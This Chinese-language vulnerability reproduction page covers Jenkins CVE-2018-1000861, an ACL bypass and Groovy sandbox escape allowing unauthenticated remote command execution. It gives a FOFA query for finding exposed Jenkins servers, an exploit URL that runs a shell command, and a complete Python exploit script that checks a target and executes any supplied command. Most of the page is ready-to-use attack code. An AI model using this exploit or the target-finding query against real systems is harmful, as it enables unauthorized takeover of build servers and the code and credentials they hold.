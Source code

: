 # Jenkins checkScript 远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

## 漏洞影响

```
Jenkins version < 2.138
Jenkins build time < 2019-01-28
```

## FOFA

```
app="Jenkins"
```

## 漏洞复现

登录页面

![image-20220525163018864](./images/202205251630920.png)

使用 EXP 执行命令

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
```

![image-20220525163041244](./images/202205251630302.png)

成功创建`/tmp/success`

![image-20220525163103929](./images/202205251631975.png)

## 漏洞POC

```python
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 

import sys
import requests
from enum import Enum

# remove bad SSL warnings
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass


endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

class mode(Enum):
    ACL_PATCHED = 0
    NOT_JENKINS = 1
    READ_ENABLE = 2
    READ_BYPASS = 3
    ENTRY_NOTFOUND = 999

def usage():
    print '''
  Usage:
    python exp.py <url> <cmd>
    '''

def _log(msg, fail=False):
    nb = '[*]'
    if fail:
        nb = '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    return url + 'securityRealm/user/admin/'

def check(url):
    flag, accessible = mode.ACL_PATCHED, False

    # check ANONYMOUS_READ
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enable!')
    elif status == 403:
        _log('ANONYMOUS_READ disable!')

        # check ACL bypass, CVE-2018-1000861
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
    else:
        flag = mode.NOT_JENKINS

    # check entry point, CVE-2019-1003005
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)
        status, content = _get(url + endpoint)

        if status == 404:
            flag = mode.ENTRY_NOTFOUND

    return flag

def exploit(url, cmd):
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    params = {
        'sandbox': True, 
        'value': payload
    }

    status, content = _get(url + endpoint, params)
    if status == 200:
        _log('Exploit success!(it should be :P)')
    elif status == 405:
        _log('It seems Jenkins has patched the RCE gadget :(')
    else:
        _log('Exploit fail with HTTP status [%d]' % status, fail=True)
        if 'stack trace' in content:
            for _ in content.splitlines():
                if _.startswith('Caused:'):
                    _log(_, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    flag = check(url)
    if flag is mode.ACL_PATCHED:
        _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Is this Jenkins?', fail=True)
    elif flag is mode.READ_ENABLE:
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Bypass with CVE-2018-1000861!')
        exploit(_add_bypass(url), cmd)
    else:
        _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
```
